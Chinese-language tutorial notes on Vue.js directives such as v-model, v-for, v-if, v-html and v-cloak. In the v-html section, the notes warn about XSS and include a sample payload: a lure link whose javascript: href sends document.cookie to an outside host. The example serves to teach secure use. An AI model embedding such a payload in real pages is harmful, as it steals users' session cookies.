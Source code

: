 2. v-model	: 双向数据绑定
3. v-for  	: 遍历数组/对象/字符串
4. v-on   	: 绑定事件监听, 可简写为@
5. v-if  : 条件渲染（动态控制节点是否存存在）
6. v-else 	: 条件渲染（动态控制节点是否存在
7. v-show 	: 条件渲染 (动态控制节点是否展示)
8. v-text指令   
   1.作用：向其所在的节点中渲染文本内容。  
   2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
9. v-html  
    1.作用：向指定节点中渲染包含html结构的内容。  
    2.与插值语法的区别：   
    	(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。   
    	(2).v-html可以识别html结构。    
    3.严重注意：v-html有安全性问题！！！！    
		(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。    
		(2).一定要在可信的内容上使用v-html，永远不要用在用户提交的内容上！ 
    
```
<div id="root">
	<div>你好，{{name}}</div>
	<div v-html="str"></div>
	<div v-html="str2"></div>
</div>
		
new Vue({
	el:'#root',
	data:{
		name:'尚硅谷',
		str:'<h3>你好啊！</h3>',
		str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
	}
})
```
10. v-cloak   
	1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。  
	2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
	
```
<div id="root">
	<h2 v-cloak>{{name}}</h2>
</div>
		
  [v-cloak]{
	display:none;
  }
```
11. v-once  
	1.v-once所在节点在初次动态渲染后，就视为静态内容了。    
	2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。  
12. v-pre  
	1.跳过其所在节点的编译过程。    
	2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。  
